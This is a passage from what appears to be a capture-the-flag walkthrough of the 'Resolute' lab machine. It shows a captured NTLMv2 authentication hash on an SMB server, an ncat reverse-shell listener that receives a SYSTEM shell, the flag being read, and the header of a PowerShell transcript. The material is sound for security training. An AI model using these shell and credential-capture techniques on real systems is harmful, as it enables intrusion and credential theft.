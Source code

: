 First I’ll see the connection on the SMB server:

```

[*] Incoming connection (10.10.10.169,50159)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:4141414141414141:fb2d88a95f9cf568c546d27ebe4f4442:010100000000000000a96d1a1fced50122c6db1ce67cdf66000000000100100075006300660071006d006e00520061000300100075006300660071006d006e00520061000200100068006b007200
490048006100620041000400100068006b007200490048006100620041000700080000a96d1a1fced50106000400020000000800300030000000000000000000000000400000f4655d8aeeeb9ce2a98b0b270af2bf358acccfb17c8276e41e29b51b4ecddc1a0a001000000000000000000000
000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310031000000000000000000

```

Then I’ll get a shell:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.169.
Ncat: Connection from 10.10.10.169:50160.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```

And from there, grab `root.txt`:

```

C:\Users\Administrator\Desktop>type root.txt
e1d94876************************

```

## Beyond Root - PowerShell Transcript

I didn’t include the full transcript above, but here it is:

```
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
```